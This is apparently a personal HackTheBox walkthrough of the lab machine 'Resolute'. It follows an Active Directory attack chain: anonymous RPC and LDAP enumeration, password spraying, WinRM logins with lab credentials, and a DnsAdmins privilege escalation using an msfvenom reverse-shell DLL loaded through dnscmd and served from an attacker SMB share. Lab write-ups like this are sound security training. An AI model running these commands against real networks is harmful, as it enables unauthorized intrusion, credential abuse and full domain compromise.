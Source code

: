 ```yaml
---
title: "HTB Resolute Walkthrough"
machine_name: "Resolute"
difficulty: "Medium"
os: "Windows"
date_completed: "2025-04-25"
techniques: ["Active Directory", "RPC Enumeration", "LDAP Anonymous Bind", "Password Spraying", "WinRM", "DnsAdmins Exploitation", "DLL Injection", "PowerShell Transcripts"]
box_ip: "10.10.10.169"
machine_rank: "#9183"
htb_completion_image: "resolute.webp"
---
```


![HTB Resolute Completion](/imgs/walkthroughs/resolute.webp)

In this walkthrough, I'll guide you through my exploitation of the "Resolute" box from HackTheBox. It begins with simple anonymous bindings and culminates in a system-level compromise. The attack chain starts with RPC anonymous binding to gather user accounts, discovering credentials through LDAP anonymous binding, and confirming access via password spraying to gain initial access as user 'melanie'. From there, the path leads to uncovering a hidden PowerShell transcript directory containing the credentials for a higher-privileged user 'ryan', who belongs to the powerful DnsAdmins group. This group membership becomes our ticket to privilege escalation by allowing us to inject a malicious DLL through the DNS service, ultimately yielding SYSTEM-level access and complete domain compromise.

## Box Information
- **Platform:** HackTheBox
- **Operating System:** Windows Server 2016
- **Domain:** megabank.local
- **Computer Name:** RESOLUTE
- **FQDN:** Resolute.megabank.local
- **Date Completed:** April 24, 2025

## Initial Enumeration

As always, we begin with an nmap scan to identify available services:

```bash
nmap -p- --min-rate 5000 -vvv -n -Pn 10.10.10.169 -oG nmap/allPorts 
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49688,49907 10.10.10.169 -oN nmap/detailed
```

### Open Ports and Services

```bash
53/tcp   open  domain      DNS         # Domain Controller indicator
88/tcp   open  kerberos    Kerberos    # Confirms Active Directory environment
135/tcp  open  rpc         RPC
389/tcp  open  ldap        LDAP
445/tcp  open  smb         SMB
5985/tcp open  wsman       WinRM
47001/tcp open  winrm      WinRM
```

From this scan, we can immediately identify that we're dealing with an Active Directory domain controller, as evidenced by the DNS (53), Kerberos (88), and LDAP (389) services.

### Additional Information Gathered

- **Domain name:** megabank.local
- **Computer name:** RESOLUTE
- **FQDN:** Resolute.megabank.local

**Note on Time Skew:** There is a time skew between our attacking machine and the domain controller. This is particularly important for Kerberos-based attacks in Active Directory environments, as Kerberos authentication is highly time-sensitive with a default maximum tolerance of only 5 minutes between client and server clocks.

## User Enumeration

We can obtain a list of users using RPCClient with anonymous binding:

```bash
rpcclient -U '' -N 10.10.10.169
rpcclient $> enumdomusers
```

With this list, I shifted my aim to finding a password. SMB NULL Authentication was proving unsuccessful, so I had no access to shares. The next step was enumerating LDAP.

## Password Discovery via LDAP Anonymous Binding

LDAP anonymous binding was enabled, and I was able to extract a password with the following query:

```bash
ldapsearch -H ldap://10.10.10.169 -x -b 'DC=megabank,DC=local' -s sub | grep Pass
```

The password was found in a description field for the user marko: **Welcome123!**

## Initial Access

With a list of users and a potential password, it's time for a password spray. I tried the password "Welcome123!" against all enumerated users and found that it worked for the user **melanie**.

I checked for accessible SMB shares but found nothing interesting. Since our port scan showed WinRM was open, I tried connecting via WinRM:

```bash
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
```

Success! We now have a shell as melanie and can grab the user flag.

## Lateral Movement to Ryan

Once on the system, I began exploring for privilege escalation opportunities. The key finding was a hidden directory at the root level:

```bash
dir -force
```

This revealed a hidden **PSTranscripts** directory. This is not a common directory, so I decided to investigate further:

```bash
dir -force C:\PSTranscripts\*
```

Following the trail led to a PowerShell transcript file containing command history. Within this file, I discovered credentials for another user:

**ryan:Serv3r4Admin4cc123!**

These credentials belonged to the user ryan, and I was able to establish a new WinRM session as this user:

```bash
evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
```

## Privilege Escalation via DnsAdmins Group

I knew there were no other users on the box I could pivot to except for Administrator, and knowing I was on an AD environment, it was likely the next path had something to do with a privilege the ryan user had. So I checked group memberships:

```bash
whoami /groups
```

The output revealed that ryan was a member of the **DnsAdmins** group. This is significant because members of this group can manipulate DNS settings, including loading arbitrary DLLs.

The exploitation path involves:
1. Creating a malicious DLL
2. Using dnscmd to configure the DNS server to load our DLL
3. Restarting the DNS service to execute our code

Here's how I executed this attack:

First, I created a reverse shell DLL on my attacking machine via msfvenom:

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=9001 -f dll > privesc.dll
```

Then I set up an SMB server to host the file:

```bash
mkdir exploits
mv privesc.dll exploits/
sudo impacket-smbserver share $(pwd)
```

In another terminal, I started a netcat listener:

```bash
nc -lnvp 9001
```

Back in my WinRM session as ryan, I configured the DNS server to load my malicious DLL and restarted the service:

```bash
dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.16.3\share\privesc.dll
sc.exe stop dns
sc.exe start dns
```

As the DNS service restarted, it loaded my DLL, which executed with SYSTEM privileges and sent a reverse shell to my listener.

Success! I now had a shell as **NT AUTHORITY\SYSTEM** and could grab the root flag.

## Key Learning Points

### Technical Skills Gained
- DnsAdmin group exploitation in Active Directory via DLL injection
- Working with Windows Server 2016
- Exploiting the dnscmd binary
- DNS service management with sc.exe
- Using netexec as an alternative to crackmapexec
- Finding hidden directories with `dir -force`

### Methodology Improvements
- Quickly extracted all users using `rpcclient` and I'm now starting to memorize some of the more common enumeration commands
- Following guided walkthrough helped me not waste tons of time
- Started to copy Ippsec's way of organizing files with my own touch which is proving helpful

### Personal Growth Notes
- I need to remember to use all avenues of enumeration
- I forgot to enumerate LDAP Anonymous Binding initially, which was a necessary step
- In general I think I'm getting a better grasp of AD. I'm almost done with the HTB Academy Module 'Active Directory Enumeration & Attacks'

## Attack Chain Summary

1. Enumerate users via RPC anonymous binding
2. Discover password via LDAP anonymous binding
3. Password spray reveals melanie uses the discovered password
4. Access via WinRM as melanie
5. Discover ryan's credentials in a hidden PowerShell transcripts directory
6. Lateral movement to ryan, who is in the DnsAdmins group
7. Exploit DnsAdmins privilege by injecting a malicious DLL using the dnscmd binary
8. Gain SYSTEM privileges and capture the root flag

**Important Note:** The DnsAdmins exploitation requires restarting the DNS service, which in a real pentest environment is not ideal as it can cause service disruption.
